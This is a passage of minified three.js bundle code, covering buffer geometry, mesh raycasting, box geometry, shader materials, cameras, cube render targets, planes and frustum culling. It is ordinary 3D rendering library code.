e=0,r=a.count;e<r;e++)Ri.fromBufferAttribute(a,e),o&&(Ti.fromBufferAttribute(t,e),Ri.add(Ti)),i=Math.max(i,n.distanceToSquared(Ri))}this.boundingSphere.radius=Math.sqrt(i),isNaN(this.boundingSphere.radius)&&console.error('THREE.BufferGeometry.computeBoundingSphere(): Computed radius is NaN. The \"position\" attribute is likely to have NaN values.',this)}}computeTangents(){const t=this.index,e=this.attributes;if(null===t||void 0===e.position||void 0===e.normal||void 0===e.uv)return void console.error(\"THREE.BufferGeometry: .computeTangents() failed. Missing required attributes (index, position, normal or uv)\");const n=e.position,i=e.normal,r=e.uv;!1===this.hasAttribute(\"tangent\")&&this.setAttribute(\"tangent\",new yi(new Float32Array(4*n.count),4));const a=this.getAttribute(\"tangent\"),o=[],s=[];for(let t=0;t<n.count;t++)o[t]=new Xe,s[t]=new Xe;const l=new Xe,c=new Xe,h=new Xe,u=new ve,d=new ve,p=new ve,f=new Xe,m=new Xe;function g(t,e,i){l.fromBufferAttribute(n,t),c.fromBufferAttribute(n,e),h.fromBufferAttribute(n,i),u.fromBufferAttribute(r,t),d.fromBufferAttribute(r,e),p.fromBufferAttribute(r,i),c.sub(l),h.sub(l),d.sub(u),p.sub(u);const a=1/(d.x*p.y-p.x*d.y);isFinite(a)&&(f.copy(c).multiplyScalar(p.y).addScaledVector(h,-d.y).multiplyScalar(a),m.copy(h).multiplyScalar(d.x).addScaledVector(c,-p.x).multiplyScalar(a),o[t].add(f),o[e].add(f),o[i].add(f),s[t].add(m),s[e].add(m),s[i].add(m))}let _=this.groups;0===_.length&&(_=[{start:0,count:t.count}]);for(let e=0,n=_.length;e<n;++e){const n=_[e],i=n.start;for(let e=i,r=i+n.count;e<r;e+=3)g(t.getX(e+0),t.getX(e+1),t.getX(e+2))}const v=new Xe,y=new Xe,x=new Xe,b=new Xe;function M(t){x.fromBufferAttribute(i,t),b.copy(x);const e=o[t];v.copy(e),v.sub(x.multiplyScalar(x.dot(e))).normalize(),y.crossVectors(b,e);const n=y.dot(s[t])<0?-1:1;a.setXYZW(t,v.x,v.y,v.z,n)}for(let e=0,n=_.length;e<n;++e){const n=_[e],i=n.start;for(let e=i,r=i+n.count;e<r;e+=3)M(t.getX(e+0)),M(t.getX(e+1)),M(t.getX(e+2))}}computeVertexNormals(){const t=this.index,e=this.getAttribute(\"position\");if(void 0!==e){let n=this.getAttribute(\"normal\");if(void 0===n)n=new yi(new Float32Array(3*e.count),3),this.setAttribute(\"normal\",n);else for(let t=0,e=n.count;t<e;t++)n.setXYZ(t,0,0,0);const i=new Xe,r=new Xe,a=new Xe,o=new Xe,s=new Xe,l=new Xe,c=new Xe,h=new Xe;if(t)for(let u=0,d=t.count;u<d;u+=3){const d=t.getX(u+0),p=t.getX(u+1),f=t.getX(u+2);i.fromBufferAttribute(e,d),r.fromBufferAttribute(e,p),a.fromBufferAttribute(e,f),c.subVectors(a,r),h.subVectors(i,r),c.cross(h),o.fromBufferAttribute(n,d),s.fromBufferAttribute(n,p),l.fromBufferAttribute(n,f),o.add(c),s.add(c),l.add(c),n.setXYZ(d,o.x,o.y,o.z),n.setXYZ(p,s.x,s.y,s.z),n.setXYZ(f,l.x,l.y,l.z)}else for(let t=0,o=e.count;t<o;t+=3)i.fromBufferAttribute(e,t+0),r.fromBufferAttribute(e,t+1),a.fromBufferAttribute(e,t+2),c.subVectors(a,r),h.subVectors(i,r),c.cross(h),n.setXYZ(t+0,c.x,c.y,c.z),n.setXYZ(t+1,c.x,c.y,c.z),n.setXYZ(t+2,c.x,c.y,c.z);this.normalizeNormals(),n.needsUpdate=!0}}normalizeNormals(){const t=this.attributes.normal;for(let e=0,n=t.count;e<n;e++)Ri.fromBufferAttribute(t,e),Ri.normalize(),t.setXYZ(e,Ri.x,Ri.y,Ri.z)}toNonIndexed(){function t(t,e){const n=t.array,i=t.itemSize,r=t.normalized,a=new n.constructor(e.length*i);let o=0,s=0;for(let r=0,l=e.length;r<l;r++){o=t.isInterleavedBufferAttribute?e[r]*t.data.stride+t.offset:e[r]*i;for(let t=0;t<i;t++)a[s++]=n[o++]}return new yi(a,i,r)}if(null===this.index)return console.warn(\"THREE.BufferGeometry.toNonIndexed(): BufferGeometry is already non-indexed.\"),this;const e=new Pi,n=this.index.array,i=this.attributes;for(const r in i){const a=t(i[r],n);e.setAttribute(r,a)}const r=this.morphAttributes;for(const i in r){const a=[],o=r[i];for(let e=0,i=o.length;e<i;e++){const i=t(o[e],n);a.push(i)}e.morphAttributes[i]=a}e.morphTargetsRelative=this.morphTargetsRelative;const a=this.groups;for(let t=0,n=a.length;t<n;t++){const n=a[t];e.addGroup(n.start,n.count,n.materialIndex)}return e}toJSON(){const t={metadata:{version:4.6,type:\"BufferGeometry\",generator:\"BufferGeometry.toJSON\"}};if(t.uuid=this.uuid,t.type=this.type,\"\"!==this.name&&(t.name=this.name),Object.keys(this.userData).length>0&&(t.userData=this.userData),void 0!==this.parameters){const e=this.parameters;for(const n in e)void 0!==e[n]&&(t[n]=e[n]);return t}t.data={attributes:{}};const e=this.index;null!==e&&(t.data.index={type:e.array.constructor.name,array:Array.prototype.slice.call(e.array)});const n=this.attributes;for(const e in n){const i=n[e];t.data.attributes[e]=i.toJSON(t.data)}const i={};let r=!1;for(const e in this.morphAttributes){const n=this.morphAttributes[e],a=[];for(let e=0,i=n.length;e<i;e++){const i=n[e];a.push(i.toJSON(t.data))}a.length>0&&(i[e]=a,r=!0)}r&&(t.data.morphAttributes=i,t.data.morphTargetsRelative=this.morphTargetsRelative);const a=this.groups;a.length>0&&(t.data.groups=JSON.parse(JSON.stringify(a)));const o=this.boundingSphere;return null!==o&&(t.data.boundingSphere={center:o.center.toArray(),radius:o.radius}),t}clone(){return(new this.constructor).copy(this)}copy(t){this.index=null,this.attributes={},this.morphAttributes={},this.groups=[],this.boundingBox=null,this.boundingSphere=null;const e={};this.name=t.name;const n=t.index;null!==n&&this.setIndex(n.clone(e));const i=t.attributes;for(const t in i){const n=i[t];this.setAttribute(t,n.clone(e))}const r=t.morphAttributes;for(const t in r){const n=[],i=r[t];for(let t=0,r=i.length;t<r;t++)n.push(i[t].clone(e));this.morphAttributes[t]=n}this.morphTargetsRelative=t.morphTargetsRelative;const a=t.groups;for(let t=0,e=a.length;t<e;t++){const e=a[t];this.addGroup(e.start,e.count,e.materialIndex)}const o=t.boundingBox;null!==o&&(this.boundingBox=o.clone());const s=t.boundingSphere;return null!==s&&(this.boundingSphere=s.clone()),this.drawRange.start=t.drawRange.start,this.drawRange.count=t.drawRange.count,this.userData=t.userData,this}dispose(){this.dispatchEvent({type:\"dispose\"})}}const Li=new Sn,Di=new Mn,Ii=new fn,Oi=new Xe,Ui=new Xe,Ni=new Xe,Fi=new Xe,ki=new Xe,zi=new Xe,Bi=new ve,Hi=new ve,Vi=new ve,Gi=new Xe,ji=new Xe,Wi=new Xe,Xi=new Xe,qi=new Xe;class Yi extends Zn{constructor(t=new Pi,e=new gi){super(),this.isMesh=!0,this.type=\"Mesh\",this.geometry=t,this.material=e,this.updateMorphTargets()}copy(t,e){return super.copy(t,e),void 0!==t.morphTargetInfluences&&(this.morphTargetInfluences=t.morphTargetInfluences.slice()),void 0!==t.morphTargetDictionary&&(this.morphTargetDictionary=Object.assign({},t.morphTargetDictionary)),this.material=Array.isArray(t.material)?t.material.slice():t.material,this.geometry=t.geometry,this}updateMorphTargets(){const t=this.geometry.morphAttributes,e=Object.keys(t);if(e.length>0){const n=t[e[0]];if(void 0!==n){this.morphTargetInfluences=[],this.morphTargetDictionary={};for(let t=0,e=n.length;t<e;t++){const e=n[t].name||String(t);this.morphTargetInfluences.push(0),this.morphTargetDictionary[e]=t}}}}getVertexPosition(t,e){const n=this.geometry,i=n.attributes.position,r=n.morphAttributes.position,a=n.morphTargetsRelative;e.fromBufferAttribute(i,t);const o=this.morphTargetInfluences;if(r&&o){zi.set(0,0,0);for(let n=0,i=r.length;n<i;n++){const i=o[n],s=r[n];0!==i&&(ki.fromBufferAttribute(s,t),a?zi.addScaledVector(ki,i):zi.addScaledVector(ki.sub(e),i))}e.add(zi)}return e}raycast(t,e){const n=this.geometry,i=this.material,r=this.matrixWorld;if(void 0!==i){if(null===n.boundingSphere&&n.computeBoundingSphere(),Ii.copy(n.boundingSphere),Ii.applyMatrix4(r),Di.copy(t.ray).recast(t.near),!1===Ii.containsPoint(Di.origin)){if(null===Di.intersectSphere(Ii,Oi))return;if(Di.origin.distanceToSquared(Oi)>(t.far-t.near)**2)return}Li.copy(r).invert(),Di.copy(t.ray).applyMatrix4(Li),null!==n.boundingBox&&!1===Di.intersectsBox(n.boundingBox)||this._computeIntersections(t,e,Di)}}_computeIntersections(t,e,n){let i;const r=this.geometry,a=this.material,o=r.index,s=r.attributes.position,l=r.attributes.uv,c=r.attributes.uv1,h=r.attributes.normal,u=r.groups,d=r.drawRange;if(null!==o)if(Array.isArray(a))for(let r=0,s=u.length;r<s;r++){const s=u[r],p=a[s.materialIndex];for(let r=Math.max(s.start,d.start),a=Math.min(o.count,Math.min(s.start+s.count,d.start+d.count));r<a;r+=3){i=Ki(this,p,t,n,l,c,h,o.getX(r),o.getX(r+1),o.getX(r+2)),i&&(i.faceIndex=Math.floor(r/3),i.face.materialIndex=s.materialIndex,e.push(i))}}else{for(let r=Math.max(0,d.start),s=Math.min(o.count,d.start+d.count);r<s;r+=3){i=Ki(this,a,t,n,l,c,h,o.getX(r),o.getX(r+1),o.getX(r+2)),i&&(i.faceIndex=Math.floor(r/3),e.push(i))}}else if(void 0!==s)if(Array.isArray(a))for(let r=0,o=u.length;r<o;r++){const o=u[r],p=a[o.materialIndex];for(let r=Math.max(o.start,d.start),a=Math.min(s.count,Math.min(o.start+o.count,d.start+d.count));r<a;r+=3){i=Ki(this,p,t,n,l,c,h,r,r+1,r+2),i&&(i.faceIndex=Math.floor(r/3),i.face.materialIndex=o.materialIndex,e.push(i))}}else{for(let r=Math.max(0,d.start),o=Math.min(s.count,d.start+d.count);r<o;r+=3){i=Ki(this,a,t,n,l,c,h,r,r+1,r+2),i&&(i.faceIndex=Math.floor(r/3),e.push(i))}}}}function Ki(t,e,n,i,r,a,o,s,l,c){t.getVertexPosition(s,Ui),t.getVertexPosition(l,Ni),t.getVertexPosition(c,Fi);const h=function(t,e,n,i,r,a,o,s){let l;if(l=1===e.side?i.intersectTriangle(o,a,r,!0,s):i.intersectTriangle(r,a,o,0===e.side,s),null===l)return null;qi.copy(s),qi.applyMatrix4(t.matrixWorld);const c=n.ray.origin.distanceTo(qi);return c<n.near||c>n.far?null:{distance:c,point:qi.clone(),object:t}}(t,e,n,i,Ui,Ni,Fi,Xi);if(h){r&&(Bi.fromBufferAttribute(r,s),Hi.fromBufferAttribute(r,l),Vi.fromBufferAttribute(r,c),h.uv=si.getInterpolation(Xi,Ui,Ni,Fi,Bi,Hi,Vi,new ve)),a&&(Bi.fromBufferAttribute(a,s),Hi.fromBufferAttribute(a,l),Vi.fromBufferAttribute(a,c),h.uv1=si.getInterpolation(Xi,Ui,Ni,Fi,Bi,Hi,Vi,new ve)),o&&(Gi.fromBufferAttribute(o,s),ji.fromBufferAttribute(o,l),Wi.fromBufferAttribute(o,c),h.normal=si.getInterpolation(Xi,Ui,Ni,Fi,Gi,ji,Wi,new Xe),h.normal.dot(i.direction)>0&&h.normal.multiplyScalar(-1));const t={a:s,b:l,c:c,normal:new Xe,materialIndex:0};si.getNormal(Ui,Ni,Fi,t.normal),h.face=t}return h}class Zi extends Pi{constructor(t=1,e=1,n=1,i=1,r=1,a=1){super(),this.type=\"BoxGeometry\",this.parameters={width:t,height:e,depth:n,widthSegments:i,heightSegments:r,depthSegments:a};const o=this;i=Math.floor(i),r=Math.floor(r),a=Math.floor(a);const s=[],l=[],c=[],h=[];let u=0,d=0;function p(t,e,n,i,r,a,p,f,m,g,_){const v=a/m,y=p/g,x=a/2,b=p/2,M=f/2,S=m+1,E=g+1;let w=0,T=0;const A=new Xe;for(let a=0;a<E;a++){const o=a*y-b;for(let s=0;s<S;s++){const u=s*v-x;A[t]=u*i,A[e]=o*r,A[n]=M,l.push(A.x,A.y,A.z),A[t]=0,A[e]=0,A[n]=f>0?1:-1,c.push(A.x,A.y,A.z),h.push(s/m),h.push(1-a/g),w+=1}}for(let t=0;t<g;t++)for(let e=0;e<m;e++){const n=u+e+S*t,i=u+e+S*(t+1),r=u+(e+1)+S*(t+1),a=u+(e+1)+S*t;s.push(n,i,a),s.push(i,r,a),T+=6}o.addGroup(d,T,_),d+=T,u+=w}p(\"z\",\"y\",\"x\",-1,-1,n,e,t,a,r,0),p(\"z\",\"y\",\"x\",1,-1,n,e,-t,a,r,1),p(\"x\",\"z\",\"y\",1,1,t,n,e,i,a,2),p(\"x\",\"z\",\"y\",1,-1,t,n,-e,i,a,3),p(\"x\",\"y\",\"z\",1,-1,t,e,n,i,r,4),p(\"x\",\"y\",\"z\",-1,-1,t,e,-n,i,r,5),this.setIndex(s),this.setAttribute(\"position\",new Mi(l,3)),this.setAttribute(\"normal\",new Mi(c,3)),this.setAttribute(\"uv\",new Mi(h,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new Zi(t.width,t.height,t.depth,t.widthSegments,t.heightSegments,t.depthSegments)}}function $i(t){const e={};for(const n in t){e[n]={};for(const i in t[n]){const r=t[n][i];r&&(r.isColor||r.isMatrix3||r.isMatrix4||r.isVector2||r.isVector3||r.isVector4||r.isTexture||r.isQuaternion)?r.isRenderTargetTexture?(console.warn(\"UniformsUtils: Textures of render targets cannot be cloned via cloneUniforms() or mergeUniforms().\"),e[n][i]=null):e[n][i]=r.clone():Array.isArray(r)?e[n][i]=r.slice():e[n][i]=r}}return e}function Ji(t){const e={};for(let n=0;n<t.length;n++){const i=$i(t[n]);for(const t in i)e[t]=i[t]}return e}function Qi(t){const e=t.getRenderTarget();return null===e?t.outputColorSpace:!0===e.isXRRenderTarget?e.texture.colorSpace:Pe.workingColorSpace}const tr={clone:$i,merge:Ji};class er extends mi{constructor(t){super(),this.isShaderMaterial=!0,this.type=\"ShaderMaterial\",this.defines={},this.uniforms={},this.uniformsGroups=[],this.vertexShader=\"void main() {\\n\\tgl_Position = projectionMatrix * modelViewMatrix * vec4( position, 1.0 );\\n}\",this.fragmentShader=\"void main() {\\n\\tgl_FragColor = vec4( 1.0, 0.0, 0.0, 1.0 );\\n}\",this.linewidth=1,this.wireframe=!1,this.wireframeLinewidth=1,this.fog=!1,this.lights=!1,this.clipping=!1,this.forceSinglePass=!0,this.extensions={clipCullDistance:!1,multiDraw:!1},this.defaultAttributeValues={color:[1,1,1],uv:[0,0],uv1:[0,0]},this.index0AttributeName=void 0,this.uniformsNeedUpdate=!1,this.glslVersion=null,void 0!==t&&this.setValues(t)}copy(t){return super.copy(t),this.fragmentShader=t.fragmentShader,this.vertexShader=t.vertexShader,this.uniforms=$i(t.uniforms),this.uniformsGroups=function(t){const e=[];for(let n=0;n<t.length;n++)e.push(t[n].clone());return e}(t.uniformsGroups),this.defines=Object.assign({},t.defines),this.wireframe=t.wireframe,this.wireframeLinewidth=t.wireframeLinewidth,this.fog=t.fog,this.lights=t.lights,this.clipping=t.clipping,this.extensions=Object.assign({},t.extensions),this.glslVersion=t.glslVersion,this}toJSON(t){const e=super.toJSON(t);e.glslVersion=this.glslVersion,e.uniforms={};for(const n in this.uniforms){const i=this.uniforms[n].value;i&&i.isTexture?e.uniforms[n]={type:\"t\",value:i.toJSON(t).uuid}:i&&i.isColor?e.uniforms[n]={type:\"c\",value:i.getHex()}:i&&i.isVector2?e.uniforms[n]={type:\"v2\",value:i.toArray()}:i&&i.isVector3?e.uniforms[n]={type:\"v3\",value:i.toArray()}:i&&i.isVector4?e.uniforms[n]={type:\"v4\",value:i.toArray()}:i&&i.isMatrix3?e.uniforms[n]={type:\"m3\",value:i.toArray()}:i&&i.isMatrix4?e.uniforms[n]={type:\"m4\",value:i.toArray()}:e.uniforms[n]={value:i}}Object.keys(this.defines).length>0&&(e.defines=this.defines),e.vertexShader=this.vertexShader,e.fragmentShader=this.fragmentShader,e.lights=this.lights,e.clipping=this.clipping;const n={};for(const t in this.extensions)!0===this.extensions[t]&&(n[t]=!0);return Object.keys(n).length>0&&(e.extensions=n),e}}class nr extends Zn{constructor(){super(),this.isCamera=!0,this.type=\"Camera\",this.matrixWorldInverse=new Sn,this.projectionMatrix=new Sn,this.projectionMatrixInverse=new Sn,this.coordinateSystem=re}copy(t,e){return super.copy(t,e),this.matrixWorldInverse.copy(t.matrixWorldInverse),this.projectionMatrix.copy(t.projectionMatrix),this.projectionMatrixInverse.copy(t.projectionMatrixInverse),this.coordinateSystem=t.coordinateSystem,this}getWorldDirection(t){return super.getWorldDirection(t).negate()}updateMatrixWorld(t){super.updateMatrixWorld(t),this.matrixWorldInverse.copy(this.matrixWorld).invert()}updateWorldMatrix(t,e){super.updateWorldMatrix(t,e),this.matrixWorldInverse.copy(this.matrixWorld).invert()}clone(){return(new this.constructor).copy(this)}}const ir=new Xe,rr=new ve,ar=new ve;class or extends nr{constructor(t=50,e=1,n=.1,i=2e3){super(),this.isPerspectiveCamera=!0,this.type=\"PerspectiveCamera\",this.fov=t,this.zoom=1,this.near=n,this.far=i,this.focus=10,this.aspect=e,this.view=null,this.filmGauge=35,this.filmOffset=0,this.updateProjectionMatrix()}copy(t,e){return super.copy(t,e),this.fov=t.fov,this.zoom=t.zoom,this.near=t.near,this.far=t.far,this.focus=t.focus,this.aspect=t.aspect,this.view=null===t.view?null:Object.assign({},t.view),this.filmGauge=t.filmGauge,this.filmOffset=t.filmOffset,this}setFocalLength(t){const e=.5*this.getFilmHeight()/t;this.fov=2*he*Math.atan(e),this.updateProjectionMatrix()}getFocalLength(){const t=Math.tan(.5*ce*this.fov);return.5*this.getFilmHeight()/t}getEffectiveFOV(){return 2*he*Math.atan(Math.tan(.5*ce*this.fov)/this.zoom)}getFilmWidth(){return this.filmGauge*Math.min(this.aspect,1)}getFilmHeight(){return this.filmGauge/Math.max(this.aspect,1)}getViewBounds(t,e,n){ir.set(-1,-1,.5).applyMatrix4(this.projectionMatrixInverse),e.set(ir.x,ir.y).multiplyScalar(-t/ir.z),ir.set(1,1,.5).applyMatrix4(this.projectionMatrixInverse),n.set(ir.x,ir.y).multiplyScalar(-t/ir.z)}getViewSize(t,e){return this.getViewBounds(t,rr,ar),e.subVectors(ar,rr)}setViewOffset(t,e,n,i,r,a){this.aspect=t/e,null===this.view&&(this.view={enabled:!0,fullWidth:1,fullHeight:1,offsetX:0,offsetY:0,width:1,height:1}),this.view.enabled=!0,this.view.fullWidth=t,this.view.fullHeight=e,this.view.offsetX=n,this.view.offsetY=i,this.view.width=r,this.view.height=a,this.updateProjectionMatrix()}clearViewOffset(){null!==this.view&&(this.view.enabled=!1),this.updateProjectionMatrix()}updateProjectionMatrix(){const t=this.near;let e=t*Math.tan(.5*ce*this.fov)/this.zoom,n=2*e,i=this.aspect*n,r=-.5*i;const a=this.view;if(null!==this.view&&this.view.enabled){const t=a.fullWidth,o=a.fullHeight;r+=a.offsetX*i/t,e-=a.offsetY*n/o,i*=a.width/t,n*=a.height/o}const o=this.filmOffset;0!==o&&(r+=t*o/this.getFilmWidth()),this.projectionMatrix.makePerspective(r,r+i,e,e-n,t,this.far,this.coordinateSystem),this.projectionMatrixInverse.copy(this.projectionMatrix).invert()}toJSON(t){const e=super.toJSON(t);return e.object.fov=this.fov,e.object.zoom=this.zoom,e.object.near=this.near,e.object.far=this.far,e.object.focus=this.focus,e.object.aspect=this.aspect,null!==this.view&&(e.object.view=Object.assign({},this.view)),e.object.filmGauge=this.filmGauge,e.object.filmOffset=this.filmOffset,e}}const sr=-90;class lr extends Zn{constructor(t,e,n){super(),this.type=\"CubeCamera\",this.renderTarget=n,this.coordinateSystem=null,this.activeMipmapLevel=0;const i=new or(sr,1,t,e);i.layers=this.layers,this.add(i);const r=new or(sr,1,t,e);r.layers=this.layers,this.add(r);const a=new or(sr,1,t,e);a.layers=this.layers,this.add(a);const o=new or(sr,1,t,e);o.layers=this.layers,this.add(o);const s=new or(sr,1,t,e);s.layers=this.layers,this.add(s);const l=new or(sr,1,t,e);l.layers=this.layers,this.add(l)}updateCoordinateSystem(){const t=this.coordinateSystem,e=this.children.concat(),[n,i,r,a,o,s]=e;for(const t of e)this.remove(t);if(t===re)n.up.set(0,1,0),n.lookAt(1,0,0),i.up.set(0,1,0),i.lookAt(-1,0,0),r.up.set(0,0,-1),r.lookAt(0,1,0),a.up.set(0,0,1),a.lookAt(0,-1,0),o.up.set(0,1,0),o.lookAt(0,0,1),s.up.set(0,1,0),s.lookAt(0,0,-1);else{if(t!==ae)throw new Error(\"THREE.CubeCamera.updateCoordinateSystem(): Invalid coordinate system: \"+t);n.up.set(0,-1,0),n.lookAt(-1,0,0),i.up.set(0,-1,0),i.lookAt(1,0,0),r.up.set(0,0,1),r.lookAt(0,1,0),a.up.set(0,0,-1),a.lookAt(0,-1,0),o.up.set(0,-1,0),o.lookAt(0,0,1),s.up.set(0,-1,0),s.lookAt(0,0,-1)}for(const t of e)this.add(t),t.updateMatrixWorld()}update(t,e){null===this.parent&&this.updateMatrixWorld();const{renderTarget:n,activeMipmapLevel:i}=this;this.coordinateSystem!==t.coordinateSystem&&(this.coordinateSystem=t.coordinateSystem,this.updateCoordinateSystem());const[r,a,o,s,l,c]=this.children,h=t.getRenderTarget(),u=t.getActiveCubeFace(),d=t.getActiveMipmapLevel(),p=t.xr.enabled;t.xr.enabled=!1;const f=n.texture.generateMipmaps;n.texture.generateMipmaps=!1,t.setRenderTarget(n,0,i),t.render(e,r),t.setRenderTarget(n,1,i),t.render(e,a),t.setRenderTarget(n,2,i),t.render(e,o),t.setRenderTarget(n,3,i),t.render(e,s),t.setRenderTarget(n,4,i),t.render(e,l),n.texture.generateMipmaps=f,t.setRenderTarget(n,5,i),t.render(e,c),t.setRenderTarget(h,u,d),t.xr.enabled=p,n.texture.needsPMREMUpdate=!0}}class cr extends ze{constructor(t,e,n,i,r,a,o,s,l,c){super(t=void 0!==t?t:[],e=void 0!==e?e:D,n,i,r,a,o,s,l,c),this.isCubeTexture=!0,this.flipY=!1}get images(){return this.image}set images(t){this.image=t}}class hr extends Ve{constructor(t=1,e={}){super(t,t,e),this.isWebGLCubeRenderTarget=!0;const n={width:t,height:t,depth:1},i=[n,n,n,n,n,n];this.texture=new cr(i,e.mapping,e.wrapS,e.wrapT,e.magFilter,e.minFilter,e.format,e.type,e.anisotropy,e.colorSpace),this.texture.isRenderTargetTexture=!0,this.texture.generateMipmaps=void 0!==e.generateMipmaps&&e.generateMipmaps,this.texture.minFilter=void 0!==e.minFilter?e.minFilter:H}fromEquirectangularTexture(t,e){this.texture.type=e.type,this.texture.colorSpace=e.colorSpace,this.texture.generateMipmaps=e.generateMipmaps,this.texture.minFilter=e.minFilter,this.texture.magFilter=e.magFilter;const n={uniforms:{tEquirect:{value:null}},vertexShader:\"\\n\\n\\t\\t\\t\\tvarying vec3 vWorldDirection;\\n\\n\\t\\t\\t\\tvec3 transformDirection( in vec3 dir, in mat4 matrix ) {\\n\\n\\t\\t\\t\\t\\treturn normalize( ( matrix * vec4( dir, 0.0 ) ).xyz );\\n\\n\\t\\t\\t\\t}\\n\\n\\t\\t\\t\\tvoid main() {\\n\\n\\t\\t\\t\\t\\tvWorldDirection = transformDirection( position, modelMatrix );\\n\\n\\t\\t\\t\\t\\t#include <begin_vertex>\\n\\t\\t\\t\\t\\t#include <project_vertex>\\n\\n\\t\\t\\t\\t}\\n\\t\\t\\t\",fragmentShader:\"\\n\\n\\t\\t\\t\\tuniform sampler2D tEquirect;\\n\\n\\t\\t\\t\\tvarying vec3 vWorldDirection;\\n\\n\\t\\t\\t\\t#include <common>\\n\\n\\t\\t\\t\\tvoid main() {\\n\\n\\t\\t\\t\\t\\tvec3 direction = normalize( vWorldDirection );\\n\\n\\t\\t\\t\\t\\tvec2 sampleUV = equirectUv( direction );\\n\\n\\t\\t\\t\\t\\tgl_FragColor = texture2D( tEquirect, sampleUV );\\n\\n\\t\\t\\t\\t}\\n\\t\\t\\t\"},i=new Zi(5,5,5),r=new er({name:\"CubemapFromEquirect\",uniforms:$i(n.uniforms),vertexShader:n.vertexShader,fragmentShader:n.fragmentShader,side:1,blending:0});r.uniforms.tEquirect.value=e;const a=new Yi(i,r),o=e.minFilter;e.minFilter===G&&(e.minFilter=H);return new lr(1,10,this).update(t,a),e.minFilter=o,a.geometry.dispose(),a.material.dispose(),this}clear(t,e,n,i){const r=t.getRenderTarget();for(let r=0;r<6;r++)t.setRenderTarget(this,r),t.clear(e,n,i);t.setRenderTarget(r)}}const ur=new Xe,dr=new Xe,pr=new ye;class fr{constructor(t=new Xe(1,0,0),e=0){this.isPlane=!0,this.normal=t,this.constant=e}set(t,e){return this.normal.copy(t),this.constant=e,this}setComponents(t,e,n,i){return this.normal.set(t,e,n),this.constant=i,this}setFromNormalAndCoplanarPoint(t,e){return this.normal.copy(t),this.constant=-e.dot(this.normal),this}setFromCoplanarPoints(t,e,n){const i=ur.subVectors(n,e).cross(dr.subVectors(t,e)).normalize();return this.setFromNormalAndCoplanarPoint(i,t),this}copy(t){return this.normal.copy(t.normal),this.constant=t.constant,this}normalize(){const t=1/this.normal.length();return this.normal.multiplyScalar(t),this.constant*=t,this}negate(){return this.constant*=-1,this.normal.negate(),this}distanceToPoint(t){return this.normal.dot(t)+this.constant}distanceToSphere(t){return this.distanceToPoint(t.center)-t.radius}projectPoint(t,e){return e.copy(t).addScaledVector(this.normal,-this.distanceToPoint(t))}intersectLine(t,e){const n=t.delta(ur),i=this.normal.dot(n);if(0===i)return 0===this.distanceToPoint(t.start)?e.copy(t.start):null;const r=-(t.start.dot(this.normal)+this.constant)/i;return r<0||r>1?null:e.copy(t.start).addScaledVector(n,r)}intersectsLine(t){const e=this.distanceToPoint(t.start),n=this.distanceToPoint(t.end);return e<0&&n>0||n<0&&e>0}intersectsBox(t){return t.intersectsPlane(this)}intersectsSphere(t){return t.intersectsPlane(this)}coplanarPoint(t){return t.copy(this.normal).multiplyScalar(-this.constant)}applyMatrix4(t,e){const n=e||pr.getNormalMatrix(t),i=this.coplanarPoint(ur).applyMatrix4(t),r=this.normal.applyMatrix3(n).normalize();return this.constant=-i.dot(r),this}translate(t){return this.constant-=t.dot(this.normal),this}equals(t){return t.normal.equals(this.normal)&&t.constant===this.constant}clone(){return(new this.constructor).copy(this)}}const mr=new fn,gr=new Xe;class _r{constructor(t=new fr,e=new fr,n=new fr,i=new fr,r=new fr,a=new fr){this.planes=[t,e,n,i,r,a]}set(t,e,n,i,r,a){const o=this.planes;return o[0].copy(t),o[1].copy(e),o[2].copy(n),o[3].copy(i),o[4].copy(r),o[5].copy(a),this}copy(t){const e=this.planes;for(let n=0;n<6;n++)e[n].copy(t.planes[n]);return this}setFromProjectionMatrix(t,e=2e3){const n=this.planes,i=t.elements,r=i[0],a=i[1],o=i[2],s=i[3],l=i[4],c=i[5],h=i[6],u=i[7],d=i[8],p=i[9],f=i[10],m=i[11],g=i[12],_=i[13],v=i[14],y=i[15];if(n[0].setComponents(s-r,u-l,m-d,y-g).normalize(),n[1].setComponents(s+r,u+l,m+d,y+g).normalize(),n[2].setComponents(s+a,u+c,m+p,y+_).normalize(),n[3].setComponents(s-a,u-c,m-p,y-_).normalize(),n[4].setComponents(s-o,u-h,m-f,y-v).normalize(),e===re)n[5].setComponents(s+o,u+h,m+f,y+v).normalize();else{if(e!==ae)throw new Error(\"THREE.Frustum.setFromProjectionMatrix(): Invalid coordinate system: \"+e);n[5].setComponents(o,h,f,v).normalize()}return this}intersectsObject(t){if(void 0!==t.boundingSphere)null===t.boundingSphere&&t.computeBoundingSphere(),mr.copy(t.boundingSphere).applyMatrix4(t.matrixWorld);else{const e=t.geometry;null===e.boundingSphere&&e.computeBoundingSphere(),mr.copy(e.boundingSphere).applyMatrix4(t.matrixWorld)}return this.intersectsSphere(mr)}intersectsSprite(t){return mr.center.set(0,0,0),mr.radius=.7071067811865476,mr.applyMatrix4(t.matrixWorld),this.intersectsSphere(mr)}intersectsSphere(t){const e=this.planes,n=t.center,i=-t.radius;for(let t=0;t<6;t++){if(e[t].distanceToPoint(n)<i)return!1}return!0}intersectsBox(t){const e=this.planes;for(let n=0;n<6;n++){const i=e[n];if(gr.x=i.normal.x>0?t.max.x:t.min.x,gr.y=i.normal.y>0?t.max.y:t.min.y,gr.z=i.normal.z>0?t.max.z:t.min.z,i.distanceToPoint(gr)<0)return!1}return!0}containsPoint(t){const e=this.planes;for(let n=0;n<6;n++)if(e[n].distanceToPoint(t)<0)return!1;return!0}clone(){return(new this.constructor).copy(this)}}function vr(){let t=null,e=!1,n=null,i=null;function r(e,a){n(e,a),i=t.requestAnimationFrame(r)}return{start:function(){!0!==e&&null!==n&&(i=t.requestAnimationFrame(r),e=!0)},stop:function(){t.cancelAnimationFrame(i),e=!1},setAnimationLoop:function(t){n=t},setContext:function(e){t=e}}}function yr(t){const e=new WeakMap;return{get:function(t){return t.isInterleavedBufferAttribute&&(t=t.data),e.get(t)},remove:function(n){n.isInterleavedBufferAttribute&&(n=n.data);const i=e.get(n);i&&(t.deleteBuffer(i.buffer),e.delete(n))},update:function(n,i){if(n.isInterleavedBufferAttribute&&(n=n.data),n.isGLBufferAttribute){const t=e.get(n);return void((!t||t.version<n.version)&&e.set(n,{buffer:n.buffer,type:n.type,bytesPerElement:n.elementSize,version:n.version}))}const r=e.get(n);if(void 0===r)e.set(n,function(e,n){const i=e.array,r=e.usage,a=i.byteLength,o=t.createBuffer();let 